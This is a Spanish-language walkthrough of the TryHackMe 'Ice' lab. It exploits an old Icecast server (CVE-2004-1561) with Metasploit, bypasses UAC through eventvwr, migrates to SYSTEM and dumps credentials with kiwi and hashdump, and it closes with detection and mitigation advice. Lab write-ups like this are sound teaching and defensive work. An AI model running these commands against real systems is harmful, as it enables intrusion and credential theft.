

## Resumen

Ice es la segunda de la serie "Windows Fundamentals" de TryHackMe, justo después de [Blue](/ctf/blue/). Aquí no hay fallo de SMB: la entrada es un **Icecast** antiguo en el puerto 8000, vulnerable a un desbordamiento de búfer en la cabecera (**CVE-2004-1561**). El reto real no es entrar, es lo de después: el proceso de Icecast es un usuario sin privilegios **y de 32 bits**, así que toca saltarse UAC, migrar a un proceso de 64 bits que corra como SYSTEM y recién ahí volcar credenciales.

| Campo | Valor |
| --- | --- |
| IP atacante | `10.130.180.15` (`ens5`) |
| IP objetivo | `10.130.166.248` |
| Hostname | `Dark-PC` |
| SO (según nmap) | Windows 7 Professional 7601 SP1 |
| Vulnerabilidad | Icecast ≤ 2.0.1, CVE-2004-1561 |
| Acceso inicial | usuario de servicio, proceso de 32 bits |
| Tras escalar | `NT AUTHORITY\SYSTEM` |

La cadena completa:

1. Escaneo de puertos y servicios con nmap; el 8000 es Icecast.
2. Explotación de CVE-2004-1561 con `exploit/windows/http/icecast_header` → meterpreter de usuario raso y de 32 bits.
3. `local_exploit_suggester` → bypass de UAC con `bypassuac_eventvwr` para una segunda sesión elevada.
4. Migración a `spoolsv.exe` (SYSTEM, 64 bits) para poder tocar LSASS.
5. `kiwi` → contraseña en claro de Dark; `hashdump` del SAM.

## Reconocimiento

Lanzo un escaneo de versiones y scripts por defecto contra los puertos típicos de Windows más el 8000, que es el que me interesa:

```bash
nmap -p135,139,445,3389,5357,8000,49152-49184 -sCV -n -Pn 10.130.166.248 -oN targeted
```



Lo que importa de la salida:

| Puerto | Servicio | Nota |
| --- | --- | --- |
| 135/tcp | msrpc | Microsoft Windows RPC |
| 139/tcp | netbios-ssn | NetBIOS |
| 445/tcp | microsoft-ds | Windows 7 Professional 7601 SP1, grupo `WORKGROUP` |
| 3389/tcp | tcpwrapped | RDP; útil si consigo credenciales |
| 5357/tcp | http | Microsoft HTTPAPI 2.0 (SSDP/UPnP), sin interés |
| 8000/tcp | http | **Icecast streaming media server** |
| 49152-49184 | msrpc | Puertos RPC dinámicos, normales en Windows |

Los scripts de SMB confirman un Windows 7 SP1 con `Dark-PC` como nombre de equipo y la firma SMB desactivada. Pero el que canta es el 8000: **Icecast**, un servidor de streaming de audio. Un Windows 7 (sin soporte desde 2020) con un servicio de terceros así de viejo es el camino evidente.

## Acceso inicial: desbordamiento en la cabecera de Icecast

Las versiones de Icecast hasta la 2.0.1 tienen el **CVE-2004-1561**: al procesar una petición HTTP con **muchas cabeceras** (más de 31), el servidor escribe fuera de un array de punteros a cadenas en el stack, y ese desbordamiento se puede llevar hasta ejecución remota de código. Es un fallo de 2004, de ahí que solo sobreviva en sistemas tan desactualizados como este.

Metasploit lo tiene empaquetado. Busco y cargo el módulo:

```text title="msfconsole"
search icecast
use exploit/windows/http/icecast_header
```

Configuro el objetivo y mi IP para la conexión de vuelta. `LHOST` es la de `ens5`, la interfaz que ve a la máquina; si la pongo mal, el exploit corre pero la shell no llega nunca:

```text title="msfconsole"
set RHOSTS 10.130.166.248
set LHOST 10.130.180.15
run
```

El exploit entra a la primera y devuelve un meterpreter. Lo primero es orientarse:

```text title="meterpreter"
sysinfo
getuid
getpid
```

Y aquí aparecen las dos restricciones que marcan todo el resto del writeup:

- `sysinfo` dice **Architecture: x64**, pero el meterpreter es de **x86 (32 bits)**: Icecast es una aplicación de 32 bits, así que el proceso explotado también lo es. Un meterpreter de 32 bits sobre un Windows de 64 no ve el `System32` real (lo redirige a `SysWOW64`) y no puede cargar `kiwi`.
- `getuid` no es SYSTEM: es la cuenta con la que corre el servicio, un usuario **sin privilegios**.

Para volcar credenciales necesito justo lo contrario: SYSTEM y 64 bits. Ese es el trabajo de las dos fases siguientes.

## Escalada: bypass de UAC

Mando la sesión a segundo plano para trabajar desde la consola. Anoto que es la **sesión 1**:

```text title="meterpreter"
background
```

El sugeridor de exploits locales compara la versión y los parches del sistema con los módulos de `exploit/windows/local` y dice cuáles encajan:

```text title="msfconsole"
sessions -l
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

Entre lo que propone están varias técnicas de **bypass de UAC**. Conviene entender por qué esto es "bypass de UAC" y no una escalada a SYSTEM en sí.

### Qué es UAC y por qué se puede saltar

UAC (*User Account Control*) es la capa de Windows que separa, dentro de **una misma cuenta de administrador**, lo que se ejecuta con permisos normales de lo que se ejecuta elevado. Cuando un administrador inicia sesión, Windows le da **dos tokens**: uno restringido (*medium integrity*), el que usa casi todo, y uno completo (*high integrity*), que solo se activa tras aprobar el aviso de UAC ("¿Quieres permitir que esta aplicación haga cambios?").

El fallo que se explota aquí es que Microsoft marcó **ciertos binarios del sistema como "auto-elevables"**: para no molestar al usuario, arrancan directamente con el token completo **sin mostrar aviso**. `eventvwr.exe` (el Visor de eventos) es uno de ellos. La técnica abusa de cómo ese binario de confianza decide qué ejecutar:

1. `eventvwr.exe`, al abrirse, consulta una clave del registro **en la rama del usuario** (`HKCU`) para saber qué programa lanzar (`mmc.exe`).
2. Esa clave de `HKCU` la puede escribir el usuario sin ser administrador.
3. Se cambia esa clave para que apunte a **nuestro payload** en lugar de a `mmc.exe`.
4. Al lanzar `eventvwr.exe`, Windows lo auto-eleva **y nuestro payload hereda el token completo**, sin que salte el aviso.

Dicho de otra forma: no se rompe UAC, se engaña a un programa de confianza para que ejecute lo nuestro con sus privilegios. Por eso solo funciona si **ya somos de un grupo de administradores**: UAC no da permisos nuevos, solo decide cuándo activar los que la cuenta ya tiene. Un usuario raso de verdad no tiene nada que elevar; en Ice la cuenta de servicio sí pertenece al grupo de administradores, por eso la vía vale.

### El módulo

Uso la variante del Visor de eventos, que es silenciosa y no deja un binario en disco:

```text title="msfconsole"
use exploit/windows/local/bypassuac_eventvwr
set SESSION 1
set LHOST 10.130.180.15
set LPORT 5555
run
```

- `SESSION 1` es la sesión sin elevar de Icecast.
- `LPORT` distinto del que ya usé para la sesión 1: si dejo el mismo con un handler escuchando, chocan.

Esto abre una **sesión nueva** (la 2) ya en *high integrity*. Lo compruebo:

```text title="meterpreter"
getuid
getprivs
```

`getuid` sigue mostrando el mismo usuario, pero `getprivs` ahora lista privilegios que antes no estaban, como **`SeTakeOwnershipPrivilege`** y `SeDebugPrivilege`: son privilegios de administrador elevado. Ya tengo UAC fuera de en medio, pero sigo en un proceso de 32 bits. Falta el último salto.

## Saqueo: migración a SYSTEM de 64 bits

Aunque la sesión 2 está elevada, sigue viviendo dentro de un proceso de 32 bits. Para hablar con **LSASS** (el proceso que guarda las credenciales en memoria) y volcar contraseñas, el meterpreter tiene que correr en un proceso de **64 bits** y, a ser posible, como **SYSTEM**.

### Por qué spoolsv.exe

Listo los procesos y busco un candidato:

```text title="meterpreter"
ps
```

Elijo **`spoolsv.exe`**, el servicio de cola de impresión, por tres razones:

- Es de **64 bits** (columna *Arch: x64*): resuelve la limitación de los 32 bits.
- Corre como **`NT AUTHORITY\SYSTEM`**: me da el máximo privilegio al migrar.
- Es un **servicio que Windows reinicia solo** si falla, así que si rompo algo al inyectar no pierdo la máquina.

`migrate` inyecta el meterpreter en ese proceso y abandona el de Icecast:

```text title="meterpreter"
migrate -N spoolsv.exe
getuid
```

`-N` busca el proceso por nombre (con el PID sería `migrate <PID>`). Tras migrar, `getuid` devuelve **`NT AUTHORITY\SYSTEM`**. Ahora sí: SYSTEM y 64 bits.

### Volcado con kiwi

`kiwi` es la versión de Mimikatz integrada en meterpreter. Lee la memoria de LSASS y saca hashes, tickets y, en sistemas antiguos o con WDigest activo, **contraseñas en claro**. Windows 7 es justo de esa época:

```text title="meterpreter"
load kiwi
creds_all
```

En la salida aparece la contraseña en claro del usuario **Dark** (queda cacheada en memoria por una tarea programada que se autentica con ella). La guardo como variable, no en claro:

```text
Username  Domain    Password
Dark      DARK-PC   {{PASS}}
```

Que la contraseña esté en texto plano en memoria es lo que convierte a Ice en un buen ejemplo: en un Windows moderno con Credential Guard y WDigest desactivado, `creds_all` solo daría el hash NT.

Con SYSTEM también vuelco los hashes NTLM del SAM, por si quiero *pass-the-hash*:

```text title="meterpreter"
hashdump
```

Sale el formato `usuario:RID:LM:NT`. El hash NT de Dark sirve igual que la contraseña para entrar por SMB, WinRM o RDP sin crackear nada.

### Post-explotación

Con la contraseña de Dark y SYSTEM en la máquina, el abanico de post-explotación que practica la sala:

```text title="meterpreter"
run post/windows/manage/enable_rdp
```

- `enable_rdp` activa el escritorio remoto (registro, servicio y firewall) para entrar como Dark con `xfreerdp /u:Dark /p:'{{PASS}}' /v:10.130.166.248 /cert:ignore`.
- `screenshare` y `screenshot` para ver el escritorio en vivo.
- `timestomp` manipula las fechas de un archivo: útil de enseñar como técnica *anti-forense*, pero es ruido que en un encargo real solo se toca con permiso y anotándolo.

## Cómo se detecta y se corrige

- **CVE-2004-1561 (Icecast)**: actualizar Icecast (cualquier versión actual lo corrige) y no exponer servicios de terceros de cara a una red no confiable. El verdadero problema de fondo es el **Windows 7 sin soporte**: sin parches de seguridad desde enero de 2020, no debería estar en producción. Un IDS con firmas para overflows de Icecast ve la petición con decenas de cabeceras.
- **Bypass de UAC (`eventvwr`)**: Sysmon registra la escritura en la clave `HKCU\Software\Classes\mscfile\shell\open\command` (evento 13) y el proceso hijo anómalo de `eventvwr.exe` lanzando algo que no es `mmc.exe` (evento 1). La mitigación directa es subir UAC al nivel máximo ("Notificarme siempre"), que fuerza el aviso incluso en los binarios auto-elevables, y **no dar privilegios de administrador local** a las cuentas de servicio: sin pertenencia al grupo de administradores, la técnica no tiene nada que elevar.
- **Migración e inyección**: `migrate` usa `CreateRemoteThread` sobre `spoolsv.exe`; Sysmon lo ve con el evento 8 y un EDR suele bloquearlo. El acceso de lectura a `lsass.exe` que hace `kiwi` es una de las alertas de más valor que existen (evento 10 de Sysmon).
- **Contraseña en claro en memoria**: desactivar **WDigest** y activar **Credential Guard** y **LSASS protegido** (RunAsPPL) dejan a Mimikatz/kiwi sin contraseñas en claro que leer. Y la tarea programada no debería autenticarse con una cuenta cuyas credenciales queden cacheadas: para eso están las cuentas de servicio administradas (gMSA).

## Lo que me llevo

Ice enseña que entrar es solo el principio. El exploit de Icecast es trivial, pero deja un meterpreter con **dos limitaciones** que hay que resolver en orden antes de poder saquear nada: primero el **bypass de UAC** para recuperar los privilegios de administrador que la cuenta ya tenía pero UAC retenía, y después la **migración** a un proceso de 64 bits que corra como SYSTEM para poder tocar LSASS.

- Si un meterpreter es de 32 bits en un Windows de 64, migra antes de buscar en `System32` o de cargar `kiwi`.
- UAC no es una barrera de permisos, es un interruptor: solo se "salta" si la cuenta ya es administradora.
- Al migrar, busca un proceso que sea de 64 bits, corra como SYSTEM **y** se reinicie solo (`spoolsv.exe`, un servicio): si la inyección falla, no pierdes el acceso.
- Una contraseña en claro en memoria es un lujo de sistemas antiguos; en uno moderno te conformas con el hash y tiras de *pass-the-hash*.

La siguiente de la serie es Blaster, otro bypass de UAC pero por la vía de un exploit local con `juicy-potato`.
